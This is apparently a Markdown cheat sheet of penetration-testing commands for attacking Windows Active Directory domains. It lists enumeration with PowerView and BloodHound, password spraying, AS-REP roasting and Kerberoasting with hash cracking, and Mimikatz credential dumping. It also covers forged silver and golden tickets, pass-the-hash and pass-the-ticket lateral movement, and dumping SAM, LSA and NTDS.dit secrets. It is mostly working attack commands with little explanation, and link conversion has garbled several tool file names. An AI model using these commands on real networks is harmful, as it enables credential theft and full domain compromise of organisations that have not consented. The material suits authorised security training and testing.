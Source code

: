 # Active Directory

### Active Directory Pentesting

#### Enumeration

To check local administrators in domain joined machine

```bash
net localgroup Administrators
```

#### Powerview

```powershell
Import-Module .\\[PowerView.ps](<http://PowerView.ps>)1  #loading module to powershell, if it gives error then change execution policy
Get-NetDomain  #basic information about the domain
Get-NetUser  #list of all users in the domain
```

* The above command's outputs can be filtered using "select" command. For example, `Get-NetUser | select name`

```powershell
Get-NetGroup  # enumerate domain groups
Get-NetGroup "group name"  # information from specific group
Get-NetComputer  # enumerate the computer objects in the domain
Find-LocalAdminAccess  # scans the network in an attempt to determine if our current user has administrative access
Get-NetSession -ComputerName files04 -Verbose  #Checking logged on users with Get-NetSession
Get-NetUser -SPN | select samaccountname,serviceprincipalname  # Listing SPN accounts in domain
Get-ObjectAcl -Identity USERNAME  # enumerates ACE(access control entities), lists SID(security identifier)
Convert-SidToName SID  # converting SID/ObjSID to name
```

* Checking for "GenericAll" right for a specific group, after obtaining they can be converted to name

```powershell
Get-ObjectAcl -Identity "group-name" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier | select -ExpandProperty SecurityIdentifier | Convert-SidToName
Find-DomainShare  #find the shares in the domain
Get-DomainUser -PreauthNotRequired -verbose  # identifying AS-REP roastable accounts
Get-NetUser -SPN | select serviceprincipalname  #Kerberoastable accounts
```

#### Bloodhound

* Collection methods - database
* Sharphound - transfer [sharphound.ps](http://sharphound.ps)1 into the compromised machine

```powershell
Import-Module .\\[Sharphound.ps](<http://Sharphound.ps>)1
Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\\temp\\ -OutputPrefix "name"
```

* Bloodhound-Python

```bash
bloodhound-python -u 'username' -p 'password' -ns DC_IP -d [DOMAIN.COM](<http://DOMAIN.COM>) -c all  #output will be in json format
```

* Running Bloodhound

```bash
sudo neo4j console
```

* then upload the .json files obtained

#### PsLoggedon

To see user logons at remote system of a domain(external tool)

```bash
PsLoggedon.exe \\\\TARGET_COMPUTER
```

#### Attacking Active Directory Authentication

💡 Make sure you obtain all the relevant credentials from compromised systems, we cannot survive if we don't have proper creds.

#### Password Spraying

* Crackmapexec - check if the output shows 'Pwned!'

```bash
crackmapexec smb SUBNET_OR_IP -u users.txt -p 'password' -d DOMAIN --continue-on-success
```

* Kerbrute

```bash
kerbrute passwordspray -d [corp.com](<http://corp.com>) users.txt "password"
```

#### AS-REP Roasting

```bash
impacket-GetNPUsers -dc-ip DC_IP DOMAIN/USERNAME:PASSWORD -request  #this gives us the hash
Rubeus.exe asreproast /nowrap  #dumping from compromised windows host
hashcat -m 18200 hashes.txt wordlist.txt --force  # cracking hashes
```

#### Kerberoasting

```bash
Rubeus.exe kerberoast /outfile:hashes.kerberoast  #dumping from compromised windows host
impacket-GetUserSPNs -dc-ip DC_IP DOMAIN/USERNAME:PASSWORD -request  #from kali machine
hashcat -m 13100 hashes.txt wordlist.txt --force  # cracking hashes
```

#### Silver Tickets

* Obtaining hash of an SPN user using Mimikatz

```
privilege::debug
sekurlsa::logonpasswords  #obtain NTLM hash of the SPN account here
```

* Obtaining Domain SID

```powershell
ps> whoami /user
```

* this gives SID of the user that we're logged in as. If the user SID is "S-1-5-21-1987370270-658905905-1781884369-1105" then the domain SID is "S-1-5-21-1987370270-658905905-1781884369"
* Forging silver ticket using Mimikatz

```
kerberos::golden /sid:<domainsid> /domain:<domain-name> /ptt /target:<targetsystem.domain> /service:<service-name> /rc4:<NTLM-hash> /user:<new-user>
exit
```

* we can check the tickets by,

```powershell
ps> klist
```

* Accessing service

```powershell
ps> iwr -UseDefaultCredentials <http://web04.corp.com:8080/>
```

#### Secretsdump

```bash
[secretsdump.py](<http://secretsdump.py>) DOMAIN/USERNAME:PASSWORD@TARGET_IP
```

#### Lateral Movement in Active Directory

#### psexec - smbexec - wmiexec - atexec

* Here we can pass the credentials or even hash, depending on what we have

```bash
[psexec.py](<http://psexec.py>) DOMAIN/USERNAME:PASSWORD@TARGET_IP
```

* the user should have write access to Admin share then only we can get session

```bash
[psexec.py](<http://psexec.py>) -hashes aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76 <domain>/<username>@<target_ip>  #we passed full hash here
[smbexec.py](<http://smbexec.py>) DOMAIN/USERNAME:PASSWORD@TARGET_IP
[smbexec.py](<http://smbexec.py>) -hashes aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76 <domain>/<username>@<target_ip>  #we passed full hash here
[wmiexec.py](<http://wmiexec.py>) DOMAIN/USERNAME:PASSWORD@TARGET_IP
[wmiexec.py](<http://wmiexec.py>) -hashes aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76 <domain>/<username>@<target_ip>  #we passed full hash here
[atexec.py](<http://atexec.py>) -hashes aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76 <domain>/<username>@<target_ip> "command"  #we passed full hash here
```

#### winrs

```bash
winrs -r:TARGET_IP -u:USERNAME -p:PASSWORD "command"
```

* run this and check whether the user has access on the machine, if you have access then you can get shell
* run this on windows session

#### crackmapexec

* If stuck make use of Wiki

```bash
crackmapexec {smb/winrm/mssql/ldap/ftp/ssh/rdp}  #supported services

crackmapexec smb SUBNET_OR_IP -u user.txt -p password.txt --continue-on-success  # Bruteforce
crackmapexec smb SUBNET_OR_IP -u user.txt -p password.txt --continue-on-success | grep '[+]'  # Filter successful logins
crackmapexec smb SUBNET_OR_IP -u user.txt -p 'password' --continue-on-success  #Password spraying
crackmapexec smb TARGET_IP -u 'user' -p 'password' --shares  #lists all shares, provide DC ip
crackmapexec smb TARGET_IP -u 'user' -p 'password' --disks
crackmapexec smb DC_IP -u 'user' -p 'password' --users  #we need to provide DC ip
crackmapexec smb TARGET_IP -u 'user' -p 'password' --sessions  #active logon sessions
crackmapexec smb DC_IP -u 'user' -p 'password' --pass-pol  #dumps password policy
crackmapexec smb TARGET_IP -u 'user' -p 'password' --sam  #SAM hashes
crackmapexec smb TARGET_IP -u 'user' -p 'password' --lsa  #dumping lsa secrets
crackmapexec smb DC_IP -u 'user' -p 'password' --ntds  #dumps NTDS.dit file
crackmapexec smb DC_IP -u 'user' -p 'password' --groups {groupname}  #we can also provide --group and it lists all groups
crackmapexec smb TARGET_IP -u 'user' -p 'password' -x 'command'  #For executing commands

#crackmapexec modules
crackmapexec smb -L  #listing modules
crackmapexec smb -M mimikatz --options  #shows the required options for the module
crackmapexec smb TARGET_IP -u 'user' -p 'password' -M mimikatz  #runs default command
crackmapexec smb TARGET_IP -u 'user' -p 'password' -M mimikatz -o COMMAND='privilege::debug sekurlsa::logonpasswords exit'
```

#### Pass the ticket

```
mimikatz.exe
sekurlsa::tickets /export
kerberos::ptt [0;76126]-2-0-40e10000-Administrator@krbtgt-CORP.LOCAL.kirbi
klist
dir \\\\dc01.corp.local\\c$
```

#### Golden Ticket

```
mimikatz.exe
privilege::debug
lsadump::lsa /inject /name:krbtgt
kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-849420856-2351964222-986696166 /krbtgt:5508500012cc005cf7082a9a89ebdfdf /ptt
misc::cmd
klist
dir \\\\dc01.corp.local\\c$
```
